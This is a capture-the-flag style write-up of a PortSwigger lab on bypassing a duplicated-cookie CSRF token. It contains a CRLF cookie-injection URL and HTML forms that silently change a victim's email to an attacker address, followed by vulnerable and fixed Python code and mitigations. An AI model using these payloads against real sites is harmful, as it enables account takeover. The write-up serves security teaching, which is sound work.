

# Lab 06: CSRF Where Token Is Duplicated in Cookie

> **Topic**: CSRF Vulnerabilities
> **Lab Number**: 06
> **Platform**: PortSwigger Web Security Academy

## Category
CSRF — Token Bypass via Double Submit Cookie Forgery

## Vulnerability Summary
The application uses the Double Submit Cookie pattern for CSRF protection: it sets a `csrf` cookie and expects the same value to appear in the POST body. The server simply checks that the two values match — it does not validate them against any server-side secret or session. An attacker who can inject an arbitrary `csrf` cookie into the victim's browser can pair it with an identical value in the forged POST body, satisfying the check with a completely fabricated token.

## Attack Methodology

### Step 1: Recon
Logged in and intercepted the email-change request in Burp Suite:

```
POST /my-account/change-email HTTP/2
Host: 0ae2003b03f3d0fa80129e44009e0074.web-security-academy.net
Cookie: session=aaaJ1V8j1eAEwyBKxx90D6P5ImLHL5Fb; csrf=<token>

email=test%40test.com&csrf=<token>
```

Both the `csrf` cookie and the `csrf` body parameter carry the same value.

### Step 2: Understanding the Validation Mechanism
Tested sending a mismatched `csrf` cookie and body parameter — rejected. Tested sending `csrf=fake` in **both** the cookie and the body — **accepted** with a 302 redirect.

```
POST /my-account/change-email HTTP/2
Cookie: csrf=fake; session=aaaJ1V8j1eAEwyBKxx90D6P5ImLHL5Fb

email=test-fake@attacker.com&csrf=fake

→ HTTP/2 302 Found
   Location: /my-account?id=wiener
```

**Hypothesis**: The server performs no cryptographic validation — it only checks `cookie.csrf == body.csrf`. Any matching pair, even `fake=fake`, passes.

### Step 3: Finding the Cookie Injection Vector
As in Lab 05, the search endpoint reflects input into a `Set-Cookie` header without stripping CRLF characters, allowing cookie injection via the search parameter:

```
GET /?search=x%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None HTTP/2
```

This causes the victim's browser to receive and store `csrf=fake`.

### Step 4: Crafting the Exploit
Built a two-stage exploit: inject the `csrf=fake` cookie via the `` CRLF trick, then auto-submit the form with `csrf=fake` in the body.

```html
<html><body>
  
  <form action="https://0ae2003b03f3d0fa80129e44009e0074.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="test-fake@attacker.com" />
    <input type="hidden" name="csrf" value="fake" />
  </form>
</body></html>
```

### Step 5: Delivering the Exploit
- Pasted the PoC into the Exploit Server body
- Clicked **Store** then **Deliver exploit to victim**

### Step 6: Results



Lab marked as **Solved** — victim's email successfully changed using `csrf=fake` on both sides.

## Technical Root Cause

```python
# ❌ Vulnerable — only checks that cookie and body values match
def validate_csrf(request):
    cookie_token = request.COOKIES.get('csrf')
    body_token   = request.POST.get('csrf')
    return cookie_token == body_token   # attacker controls both

# ✅ Secure — validate against a server-side secret tied to the session
def validate_csrf(request):
    token = request.POST.get('csrf')
    return token == request.session.get('csrf_token')
```

### Why This Works

| Scenario | csrf Cookie | csrf Body | Match? | Request Processed |
|----------|------------|-----------|--------|-------------------|
| Legitimate user | ✅ Real token | ✅ Real token | ✅ Yes | ✅ Yes |
| Attacker (no injection) | ✅ Victim's token (unknown) | ❌ Attacker's value | ❌ No | ❌ Blocked |
| Attacker (with injection) | ✅ `fake` (injected) | ✅ `fake` | ✅ Yes | ✅ Yes — **vulnerable** |

## Impact
- **Account Takeover**: Changed email enables password reset to attacker's inbox
- **Stateless Validation Is Not Enough**: The Double Submit Cookie pattern is only secure when the token is cryptographically signed with a server-side secret — pure equality checks can always be satisfied by an attacker who controls the cookie
- **CRLF + Double Submit = Full Bypass**: Any CRLF injection in the app collapses this defence entirely

## Proof of Concept

**Minimal**
```html

<form action="https://TARGET/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="attacker@evil.com" />
  <input type="hidden" name="csrf" value="fake" />
</form>
```

**Full Exploit (as used)**
```html
<html><body>
  
  <form action="https://0ae2003b03f3d0fa80129e44009e0074.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="test-fake@attacker.com" />
    <input type="hidden" name="csrf" value="fake" />
  </form>
</body></html>
```

## Key Takeaways
1. **Double Submit ≠ Secure by Default**: The pattern is only safe when the cookie value is an HMAC signed with a server-side secret. A plain equality check between two attacker-controllable values is not a defence.
2. **Cookie Injection Breaks Stateless CSRF Defences**: Labs 05 and 06 both demonstrate that any CRLF injection primitive makes cookie-based CSRF patterns exploitable.
3. **`csrf=fake` Works**: You don't need a real token. Any value the attacker can place in both cookie and body simultaneously satisfies the check.
4. **Signed Tokens Require Server State (or a Secret)**: To avoid server-side session storage, use HMAC-signed tokens that include the session ID — this way the server can verify the token without storing it, and an attacker cannot forge a valid one.
5. **Test Both Sides**: When a CSRF check involves a cookie, always test whether you can control the cookie — if yes, the token check is bypassable.

## Mitigation

### 1. Use Signed Double Submit Cookies
```python
import hmac, hashlib

# ✅ Sign the token with a server-side secret + session ID
def generate_csrf_token(session_id, secret):
    return hmac.new(secret.encode(), session_id.encode(), hashlib.sha256).hexdigest()

def validate_csrf(request, secret):
    token = request.POST.get('csrf')
    expected = generate_csrf_token(request.session.id, secret)
    return hmac.compare_digest(token, expected)
```

### 2. Fix CRLF Injection (remove the cookie injection vector)
```python
safe_value = user_input.replace('\r', '').replace('\n', '')
response.set_cookie('LastSearchTerm', safe_value)
```

### 3. Bind Token to Session Server-Side
```python
# Simplest fix: store token in session, not just cookie
if not token or token != request.session.get('csrf_token'):
    return HttpResponseForbidden('Invalid CSRF token')
```

### 4. SameSite Cookie Attribute
```http
Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly
```

## References
- [PortSwigger CSRF Lab - Token Duplicated in Cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)
- [OWASP Double Submit Cookie Pattern](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#double-submit-cookie)
- [OWASP CRLF Injection](https://owasp.org/www-community/vulnerabilities/CRLF_Injection)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, CSRF PoC Generator)
- Chromium
- PortSwigger Exploit Server

---

*Lab completed on: 2026-04-17*
*Writeup by vibhxr*
